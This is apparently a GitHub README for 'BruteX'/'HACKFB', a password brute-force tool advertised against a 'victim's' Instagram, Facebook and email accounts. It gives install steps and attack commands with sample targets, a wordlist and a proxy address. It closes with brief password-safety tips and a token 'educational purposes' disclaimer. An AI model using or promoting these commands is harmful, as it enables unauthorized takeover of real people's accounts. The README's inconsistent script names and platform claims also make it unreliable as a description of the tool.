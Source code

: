 # BruteX
BruteX is A bruteForce attacking tool

## Whats New
+ ```Fixed tor error```
+ ```Added update feature```
+ ```Enhanced Features```

### Features Of BruteX:
+ You can bruteforce attack on your victim's Instagram, Facebook and Email ID with 100 password/second you can add your own custom password list and this tool also has password list, so If you don't have your own password list then it's ok don't worry you can use auto attack function (In this function you don't need your own password list).

## Attack Type
#### BruteForce Attack

+ Auto Attack
+ Manual Attack

#### python or python3 supporting

### Tested on:
+ Termux
+ ~Linux~
### Available for:
+ Termux
+ ~Linux~

### About Next Update
+ BruteX will available for all operating system in next update.


# HACKFB UPDATE

***
  - SCRIPT: **HACKFB**
  **Brute Force Attack On Facebook Accounts**
***

    - **Brute Force On Facebook Account Without proxy**:
     
     * **Command**: python faceboom.py -t rafi@gmail.com -w wlist.txt
   
   - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python HACKFB.py -t rafi@gmail.com -w wlist.txt -p 144.217.101.245:3129          

   - **Get Target Facebook Profile ID**:
   
    * **Command**: python HACKFB.py -g https://www.facebook.com/zuck

***

# For Install:

```
  rm -rf BruteX

  git clone https://github.com/MR-ZIHAD/BruteX.git
  
  cd BruteX

  chmod 777 HACKFB.py

  python HACKFB.py -t 100006256286582 -w /sdcard/access.txt

```

***

# Supported Platforms:
- [x] Windows
- [x] Linux
- [x] Android~**Termux**
- [x] MacOs
- [x] **any Os has python(2.x, 3.x) with required modules**


# Protect yourself from this attack:
  * Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10 letters
  * don't use your basic information in the password for example don't use your name or birthday\
        because the hacker can do a information gathering attack and get this information easily\
        then he will generate a wordlist based on this info.
  * Use 2F Authentication.
  
# Warning:
  * this script is only for educational purposes
  * i am not responsible for your actions.

# That's All :)
   * This Script Coded By ZIHAD HOSSAIN RAFI
   * Thanks For Usage
   * Have A Nice Day...GoodBye :)


 
